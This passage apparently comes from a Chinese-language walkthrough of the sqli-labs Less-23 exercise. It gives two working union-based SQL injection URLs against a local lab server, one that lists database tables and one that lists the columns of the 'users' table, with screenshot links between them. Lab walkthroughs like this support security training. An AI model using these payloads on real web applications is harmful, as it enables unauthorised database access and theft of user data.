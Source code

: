 <img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607134310968.png" alt="image-20230607134310968" style="zoom: 33%;" />

#### 爆表

```
http://192.168.231.129:9001/Less-23/?id=' union select 1,group_concat(table_name),3 as '2' from information_schema.tables where table_schema=database() group by '2
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607134353199.png" alt="image-20230607134353199" style="zoom: 33%;" />

#### 拖库

```
http://192.168.231.129:9001/Less-23/?id=' union select 1,group_concat(column_name),3 as '2' from information_schema.columns where table_schema=database() and table_name='users' group by '2
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607134510375.png" alt="image-20230607134510375" style="zoom: 33%;" />
